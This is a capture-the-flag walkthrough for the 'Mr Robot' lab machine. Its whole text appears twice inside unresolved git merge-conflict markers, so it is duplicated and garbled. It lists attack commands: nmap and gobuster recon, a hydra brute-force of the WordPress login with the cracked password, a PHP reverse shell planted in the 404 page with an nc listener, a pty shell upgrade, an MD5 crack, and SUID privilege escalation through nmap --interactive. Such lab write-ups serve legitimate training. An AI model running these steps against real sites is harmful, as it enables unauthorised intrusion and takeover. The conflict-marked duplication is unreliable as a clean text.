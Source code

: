 <<<<<<< HEAD
### RECON 
###### Scanning 
 * `nmap -A X.X.X.X`
	 * 22: ssh
	 * 80: Apache
	 * 443: Apache
 
###### Locating directories
 * `gobuster dir -u X.X.X.X:3333 -w rockuou.txt`
	 * robots.txt → fsocity.dic, key-1-of-3.txt
	 * /wp-login
 
###### Go through the site
* /wp-login ~ exploit
	* find out the right username:
		* Elliot
		* Note: Wordpres login is case-INsensitive

### COMPROMISE
* ```hydra -l elliot -P fsocity.dic X.X.X.X http-post-form "/wp-login:log=^USER^&pwd=^PASS^wp-submit=Log+In:F=The password you entered for username elliot is incorrect"```
	* Elliot: ER28-0652
* modify 404 error page in order to embedd PHP reverse shell
* `nc -lvnp 4444`
* get proper shell: `python -c 'import pty;pty.spawn("/bin/bash")'`
* find interesting files
	* password hash: MD5 ~ crack → key-2-of-3.txt

### PRIVILEGE ESCALATION
* `find / -perm -u=s 2>/dev/null`
	* nmap, vim, find, bash, more, less, nano, cp
	* `nmap --interactive`
=======
### RECON 
###### Scanning 
 * `nmap -A X.X.X.X`
	 * 22: ssh
	 * 80: Apache
	 * 443: Apache
 
###### Locating directories
 * `gobuster dir -u X.X.X.X:3333 -w rockuou.txt`
	 * robots.txt → fsocity.dic, key-1-of-3.txt
	 * /wp-login
 
###### Go through the site
* /wp-login ~ exploit
	* find out the right username:
		* Elliot
		* Note: Wordpres login is case-INsensitive

### COMPROMISE
* ```hydra -l elliot -P fsocity.dic X.X.X.X http-post-form "/wp-login:log=^USER^&pwd=^PASS^wp-submit=Log+In:F=The password you entered for username elliot is incorrect"```
	* Elliot: ER28-0652
* modify 404 error page in order to embedd PHP reverse shell
* `nc -lvnp 4444`
* get proper shell: `python -c 'import pty;pty.spawn("/bin/bash")'`
* find interesting files
	* password hash: MD5 ~ crack → key-2-of-3.txt

### PRIVILEGE ESCALATION
* `find / -perm -u=s 2>/dev/null`
	* nmap, vim, find, bash, more, less, nano, cp
	* `nmap --interactive`
>>>>>>> ed86870e047cc27b656f2f20735dd248c5953b5d
	* in /root → key-3-of-3.txt